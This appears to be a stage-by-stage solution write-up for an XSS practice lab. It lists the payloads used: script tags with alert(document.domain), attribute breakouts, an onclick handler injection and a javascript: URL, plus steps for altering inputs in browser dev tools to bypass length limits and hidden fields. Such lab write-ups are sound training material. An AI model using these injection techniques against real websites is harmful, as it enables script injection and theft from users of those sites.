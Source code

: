 ## Stage #1
**Payload:** `<script>alert(document.domain)</script>`


## Stage #2
**Payload:** `"><script>alert(document.domain)</script>//`


## Stage #3
Go to inspect and change a option (e.g. USA) to `<script>alert(document.domain)</script>`
Then choose this and click search


## Stage #4
Go to inspect. You'll see a hidden input field after the select tag. Make it visible by removing `type`.
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #5
Go to inspect. You will see a input field like this:
```html
<input type="text" name="p1" maxlength="15" size="30" value="">
```
So just delete the maxlength="15" and size="30".
Then use this payload in that input field:
```
"><script>alert(document.domain)</script>//
```

## Stage #6
Use this payload: `" onclick=alert(document.domain)`
Click the search button. Then click the input field again. SOLVED!

## Stage #7
Same as **Stage #6**. Use this payload: `" onclick=alert(document.domain)`

## Stage #8
Use this payload: `javascript:alert(document.domain)'. Then its gonna make an url.
Click that url and the lab is solved.
